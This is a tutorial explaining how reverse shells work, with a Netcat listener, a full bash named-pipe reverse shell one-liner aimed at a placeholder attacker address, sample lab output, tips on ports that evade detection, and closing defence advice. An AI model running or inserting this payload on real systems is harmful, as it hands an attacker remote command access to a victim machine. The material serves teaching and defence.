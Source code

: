 ### Reverse Shells: A Key Cyberattack Technique for Remote Access

A reverse shell, also known as a "connect-back shell," is a commonly used technique in cyberattacks and penetration testing to gain remote access to a target system. Unlike a traditional "bind shell," where the target listens for incoming connections, a reverse shell initiates a connection from the compromised system back to the attacker's machine. This approach helps bypass firewalls, as outgoing connections are often less scrutinized than incoming ones, making reverse shells a popular choice for evading detection.

---

### How Reverse Shells Work: Step-by-Step

To illustrate how a reverse shell works, let's walk through a practical example using **Netcat (nc)**, a widely used networking utility that supports both Unix-like and Windows operating systems.

#### Step 1: Setting Up a Netcat Listener on the Attacker's Machine

The first step is for the attacker to set up a listener using Netcat. This command allows the attacker's machine to "wait" for a connection from the compromised target.

**Command**:
```bash
attacker@kali:~$ nc -lvnp 443
listening on [any] 443 ...
```

**Explanation of Options**:
- `-l`: Puts Netcat in "listen" mode, meaning it waits for incoming connections.
- `-v`: Enables verbose mode, providing additional feedback about the connection status.
- `-n`: Disables DNS lookups, allowing Netcat to use IP addresses directly, which is faster and avoids unnecessary name resolutions.
- `-p 443`: Specifies the port to listen on. In this case, port 443 is used, but attackers often choose other common ports (e.g., 53, 80, 8080, 445) to blend with legitimate network traffic and avoid detection.

Once this listener is active, it waits for an incoming connection from the target system.

---

#### Step 2: Executing the Reverse Shell Payload on the Target System

The next step is to execute the reverse shell payload on the compromised target. This payload could be delivered and executed through various methods, such as exploiting a vulnerability, uploading a malicious file, or gaining unauthorized access to the system.

**Example Reverse Shell Payload**:
```bash
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | bash -i 2>&1 | nc ATTACKER_IP ATTACKER_PORT >/tmp/f
```

Let’s break down each component of this command:

- **`rm -f /tmp/f`**: Removes any existing file at `/tmp/f`, ensuring that there are no conflicts when creating a new named pipe.
- **`mkfifo /tmp/f`**: Creates a named pipe, or FIFO (first-in, first-out) file, at `/tmp/f`. Named pipes enable two-way communication between processes.
- **`cat /tmp/f`**: Reads data from the named pipe and waits for input to be passed through it.
- **`| bash -i 2>&1`**: Pipes the output of `cat` to an interactive bash shell (`bash -i`), allowing the attacker to execute commands. `2>&1` redirects standard error to standard output, so any error messages are sent back to the attacker.
- **`| nc ATTACKER_IP ATTACKER_PORT >/tmp/f`**: Pipes the shell’s output to Netcat, which connects to the attacker's IP (`ATTACKER_IP`) and port (`ATTACKER_PORT`).
- **`>/tmp/f`**: Sends the output of commands back into the named pipe, enabling bi-directional (two-way) communication between the attacker and the target system.

> This payload effectively creates a reverse shell that "calls back" to the attacker's machine, exposing a bash shell over the network.

---

#### Step 3: Attacker Receives the Reverse Shell Connection

After the reverse shell payload is executed on the target, the listener on the attacker’s machine will detect and accept the incoming connection. The attacker now has remote access to the target's command line, allowing them to execute commands on the compromised system.

**Attacker Terminal Output**:
```bash
attacker@kali:~$ nc -lvnp 443
listening on [any] 443 ...
connect to [10.4.99.209] from (UNKNOWN) [10.10.13.37] 59964
To run a command as administrator (user "root"), use "sudo ".
See "man sudo_root" for details.

target@tryhackme:~$
```

The output shows that the attacker's machine has received a connection from the target (IP address `10.10.13.37`), giving the attacker a functional shell session. At this point, the attacker can interact with the target as if they were logged into the terminal directly.

---

### Why Reverse Shells Are Effective for Evading Detection

Reverse shells are particularly effective for avoiding firewalls and intrusion detection systems because they:
- **Initiate Outgoing Connections**: Most firewalls are configured to block incoming connections, but outgoing connections are often allowed to enable web browsing, email, and other services.
- **Blend with Legitimate Traffic**: By using common ports (e.g., 443, 80), reverse shells can disguise themselves as legitimate traffic, making them less likely to trigger security alerts.
  
### Tools and Payload Variations for Reverse Shells

While Netcat is commonly used for setting up reverse shells, several other tools and variations of payloads are available, depending on the operating system and network configuration:

1. **PowerShell Reverse Shell (Windows)**:
   - A reverse shell can be crafted using PowerShell scripts on Windows, which is highly effective due to PowerShell’s powerful scripting capabilities.
   
2. **Python Reverse Shell**:
   - Python can be used to create reverse shells on systems with Python installed, offering a cross-platform alternative.

3. **Bash Reverse Shell**:
   - The example provided is a bash reverse shell, ideal for Unix-based systems where bash is readily available.

4. **Meterpreter Reverse Shell (Metasploit)**:
   - Metasploit's Meterpreter provides a reverse shell with additional functionality, such as file upload/download, screenshot capture, and keylogging.

---

### Security Implications and Defenses Against Reverse Shells

**Detection Techniques**:
- **Network Monitoring**: Use intrusion detection systems (IDS) to monitor for unusual outbound connections, especially those originating from uncommon or restricted services.
- **Firewall Rules**: Configure firewalls to restrict outbound traffic on non-standard ports and monitor for unusual activity on ports like 80, 443, and 8080.
- **Endpoint Protection**: Advanced endpoint detection and response (EDR) solutions can help detect suspicious behaviors, such as unexpected Netcat or bash activity, especially when initiated from non-standard applications.

**Mitigation Techniques**:
- **Limit Shell Access**: Restrict shell access on sensitive systems and implement strict access controls for interactive shells.
- **Outbound Traffic Filtering**: Apply stringent policies to restrict which outbound connections are allowed, and limit traffic only to necessary services.
- **Regular Security Audits**: Routinely audit system processes and services to detect unauthorized tools like Netcat, which attackers frequently use in reverse shells.

---

### Conclusion

Reverse shells are a powerful tool for attackers, providing remote access to compromised systems by leveraging outbound connections that are often allowed by firewalls. By understanding how reverse shells operate, defenders can implement better monitoring, detection, and prevention strategies to secure systems against these types of attacks.
